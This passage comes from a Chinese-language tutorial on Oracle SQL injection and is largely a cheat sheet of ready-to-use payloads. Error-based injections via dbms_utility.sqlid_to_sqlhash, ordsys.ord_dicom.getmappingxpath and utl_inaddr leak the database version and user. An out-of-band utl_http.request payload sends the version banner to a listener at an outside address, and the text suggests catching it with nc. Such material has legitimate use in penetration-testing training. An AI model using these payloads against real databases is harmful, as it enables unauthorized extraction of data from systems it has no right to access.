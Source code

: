 

```sql
and (SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_j1cUNa7z.png)



### ordsys.ord_dicom.getmappingxpath()
```sql
select ordsys.ord_dicom.getmappingxpath((select banner from v$version where banner like 'Oracle%'),1,1) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_69erZhIk.png)



### utl_inaddr.*()
作用:用于取得局域网或Internet环境中的主机名和IP地址.
1、`utl_inaddr.get_host_address` 
如果查询失败，则提示系统错误
```sql
select utl_inaddr.get_host_address((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_03_E3Bk2dpJ.png)

2、`UTL_INADDR.get_host_name`
如果查询失败，则提示系统错误

```sql
select utl_inaddr.get_host_name((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_03_qWw4C2Xl.png)



## OOB 外带注入
**以下都需要用户可访问网络的权限**
### utl_http.request()

使用此方法，用户需要有utl_http访问网络的权限
然后使用`||`拼接字符外带出来，可以远程启动`HTTP`服务，或者nc远程监听某个端口
```sql
and utl_http.request('http://172.17.0.1:8888/'||(select banner from v$version where banner like 'Oracle%'))=1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_04_oUIv60hw.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_04_mJbelcUE.png)


